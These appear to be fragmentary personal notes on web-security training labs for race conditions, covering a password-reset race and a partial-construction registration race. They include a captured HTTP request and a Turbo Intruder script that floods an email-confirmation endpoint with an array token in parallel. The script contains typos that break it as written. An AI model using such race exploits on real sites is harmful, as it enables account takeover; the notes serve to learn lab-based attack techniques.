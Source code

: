     delete carlos
    Forgot password?
1. GET /forgot-password without `phpsession` cookie, take the new cookie and csrf token to `POST /forget-password`
2. send two request in parallel mode (one: carlos, two: wiener)
3. visit any link change query string to `carlos`
---
**Partial construction race conditions** !EX

    delete carlos
    register with GinAndJuice only
    const confirmEmail = () => {...}
`POST /confirm?token[]=`
```http
POST /register HTTP/2
Host: 0a1e00df03dd32c180e9da650028008e.web-security-academy.net
Cookie: phpsessionid=T9oQ3Pbs4YiZxXc2q7bAZD4YSw3vtViu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: th,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a1e00df03dd32c180e9da650028008e.web-security-academy.net/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Origin: https://0a1e00df03dd32c180e9da650028008e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=wuJPSs59FN4ccvUNwo3lcPicIuu9OMgg&username=%s&email=somemail@ginandjuice.shop&password=123456
```
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
                       concurrentConnections=1,
                       engine=Engine.BURP2
                       )
comfirmationReq = '''
POST /confirm?token[]= HTTP/2
Host: 0a8d00b6046524099ac4bf5900ff00e2.web-security-academy.net
Cookie: phpsessionid=Ry16pt9QanyoF2pNOdlq7iiAQLwKqKVx
Content-Length: 0
'''
for attempt in range(20):
    currentAttempt = str(attempt)
    username = 'uname' + currentAttepmt

    # queue a single registration request
    engine.queue(target.req, username, gate=currentAttempt)

    # queue 50 confirmation requests - note that this will probably sent in two separate packets
    for i in range (50):
        engine.queue(confirmationReq, gate=currentAttempt)

    # send all the queue requests for this attempt
    engine.openGate(currentAttempt)
def handleResponse(req, interesting):
table.add(req)
```
----
----